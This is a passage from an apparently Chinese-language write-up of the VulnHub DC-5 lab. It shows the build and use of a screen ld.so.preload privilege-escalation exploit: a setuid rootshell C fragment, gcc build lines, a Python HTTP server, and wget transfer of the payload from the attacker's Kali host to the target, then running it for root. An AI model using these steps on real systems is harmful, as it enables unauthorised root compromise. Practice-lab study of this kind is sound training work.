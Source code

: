 ```bash
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机
```
python -m SimpleHTTPServer 8080
```

```
cd /tmp
wget 192.168.141.134:8080/libhax.so;wget 192.168.141.134:8080/rootshell
```

运行 poc
```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC5/12.png)
